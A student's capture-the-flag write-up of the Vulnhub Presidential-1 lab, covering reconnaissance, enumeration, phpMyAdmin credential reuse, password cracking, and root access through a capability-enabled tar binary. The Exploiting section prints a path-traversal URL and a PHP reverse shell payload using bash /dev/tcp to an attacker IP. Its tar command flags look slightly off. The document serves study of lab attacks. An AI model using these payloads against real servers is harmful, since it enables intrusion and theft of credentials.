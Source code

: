 # Report Cybersecurity : Presidential Hacking
Simone Cossaro IN2000201

## Introduction

This report details the steps taken to solve the Vulnhub CTF (Capture the Flag) challenge known as Presidential-1.

The attack was conducted following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

In the scenario presented, the U.S. state is developing a registration website for presidential elections and seeks to test the security of the server before launching the website and registration system. One political party is concerned that the opposing party might commit electoral fraud by hacking into the registration system and falsifying votes.

The objective of the challenge is to gain root access to the server.

## Tools

VirtualBox is required for this challenge to run the following two virtual machines:
* the Presidential VM, available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
Both virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. The shell command `netdiscover` automates the discovery of live hosts on a network. Executing it helps determine if the presidential machine is connected to the network and identifies its IP address.

Once the IP address of the machine (10.0.2.8) is identified, we proceed to identify the services, open ports, and software versions on it using the `nmap` command.

![Steps of recognition](images/reconnaissance.png)  

The scan reveals that the machine is running a web service on port 80 with HTTP protocol and a remote shell on port 2082 with SSH protocol.

## Enumeration

Visiting the main page of the web service on port 80 and scrolling to the bottom reveals an email address (contact@votenow.local), providing the domain name: votenow.local. The domain name can be associated with the IP address by adding a line to the '/etc/hosts' file.

In this enumeration phase, Gobuster, a tool for scanning directories and files on web servers, is essential. It locates hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but are still accessible.

The Gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist, such as potential directories, files, subdomains, etc., until it finds valid resources or exhausts the options.

![Steps of enumeration](images/enumeration.png)  

A 'config.php.bak' file was detected. These files usually contain a backup copy of the original 'config.php' file, which in turn contains important configuration information.

Indeed, the file contains user credentials that may prove useful later.

## Exploiting

UUsing Gobuster with the vhost option allows the discovery of subdomains. With the dictionary used (/dirbuster/wordlists/directory-list-2.3-medium.txt), a single subdomain was found: datasafe.votenow.local.

The subdomain's web page features an access panel to "phpMyAdmin." By entering the previously obtained credentials, it is possible to log in and access a SQL database containing the hash of an admin user's password.

The hash alone cannot be used, so John the Ripper, a password-cracking tool, is employed. Using the famous rockyou dictionary, the password corresponding to the hash is forced, revealing it to be "Stella."

Browsing the page further, it is noted that the phpMyAdmin version is outdated, listed as 4.8.1 while the latest stable version is 4.9.5.

Searchsploit, a tool for searching known exploits and vulnerabilities, reveals three vulnerabilities for this version, one of which allows command execution. Searchsploit provides detailed information about this vulnerability and how it can be exploited.

To exploit this vulnerability it is necessary to:
1) authenticate
2) obtain the phpMyAdmin cookie
3) execute a SQL query on the web page
4) accurately edit the URL.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by using the browser inspector and seeing what the value of the cookie named phpMyAdmin is.

After authentication it is possible to execute sql queries on the databases present.

The normal functioning of the web application does not allow the interpretation and execution of code inserted in the backticks. However, by carefully structuring the URL and inserting a php script between backticks into a SQL query, it is possible to obtain the execution of the script.
The URL must have the following format:
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/ php/session/sess_{cookieValue}
where {cookieValue} is the current session's cookie value.

By listening with a netcat listener on port 443 and injecting a SQL query like:
`select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'`
and structuring the URL as shown, a reverse shell is obtained on the presidential machine.

![Exploitation of the vulnerability](images/sql_vuln.png)

At this point, authentication can be done using the previously extracted admin user credentials.

![Reverse shell connection and authentication](images/reverse_shell.png)


## Privilege Escalation

The next step is listing the capabilities associated with available executable files using the `getcap` command.  It is noted that the tarS binary has '+EP'. This binary allows the compression of any file on the system without being root. Once compressed, it's possible to read the contents of the file by performing only the decompression.

The '/root/.ssh/' directory contains an 'id_rsa' file, which typically holds an RSA private key for SSH authentication.
By having '+ep', compressing and decompressing the 'id_rsa' file, visibility to its contents is gained.

Compression and decompression are done by the two following commands:

* `tarS -xvf id_rsa.tar /root/.ssh/id_rsa` : creates a tar archive called 'id_rsa.tar' containing the 'id_rsa' file present in the '/root/.ssh/' directory.

* `tar -xvf id_rsa.tar` : extracts the file from the 'id_rsa.tar' archive.

After the execution of these two commands, the 'id_rsa' file can be read.

![Obtaining the RSA private key](images/rsa_key.png)

With the RSA private key, remote connection to the presidential machine via SSH protocol is possible.

![Root access](images/ssh_&_final_flag.png)
